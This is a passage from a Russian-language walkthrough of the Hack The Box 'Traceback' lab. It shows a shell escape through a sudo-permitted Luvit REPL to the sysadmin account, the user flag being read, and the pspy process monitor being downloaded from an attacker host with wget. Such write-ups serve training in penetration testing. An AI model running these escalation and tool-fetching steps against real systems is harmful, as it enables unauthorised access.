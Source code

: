 ```html
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("/bin/sh -i")
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
```

>И берем флаг юзера:

```html
$ cd ..
$ ls
sysadmin  webadmin
$ cd sysadmin
$ ls
luvit  test.lua  user.txt
$ cat user.txt
7f0b9c6e3bd8a432ddd4a1**********
```

>Не ясно, что делать дальше, поэтому пока просто понаблюдаем за тем, что крутится в системе с помощью pspy:

```html
$ wget http://10.10.14.58:8000/pspy64
--2020-05-08 07:25:34--  http://10.10.14.58:8000/pspy64
Connecting to 10.10.14.58:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                  100%[=============================>]   2.94M   821KB/s    in 4.5s    

2020-05-08 07:25:39 (661 KB/s) - ‘pspy64’ saved [3078592/3078592]
```

>Делаем файл исполняемым и запускаем:

```html
$ chmod +X ./pspy64
$ ls
luvit  pspy64  test.lua  user.txt
$ ./pspy64
```

>Я вырезал большую часть скана и оставил интересную:

```html
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
```